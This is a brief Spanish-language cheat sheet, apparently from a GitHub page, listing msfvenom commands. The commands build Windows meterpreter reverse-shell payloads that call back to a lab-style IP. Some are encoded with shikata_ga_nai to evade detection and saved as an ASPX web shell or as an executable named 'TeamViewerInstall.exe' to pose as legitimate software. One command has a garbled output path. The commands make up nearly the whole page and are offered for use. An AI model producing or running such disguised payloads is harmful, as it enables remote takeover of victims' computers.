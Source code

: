 # MSFVENOM
## Descripción
MSFVENOM es una herramienta que viene integrada en metasploit framework que sirve principalmente para crear payloads, podemos ver algunos ejemplos con enconders para darle algo mas de sabor.

### Forma Típica
```python
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx
```

### Encoder shikata_ga_nai sin interacciones
```python
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
```

### Encoder shikata_ga_nai con interacciones
```python
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe./TeamViewerInstall.exe
```

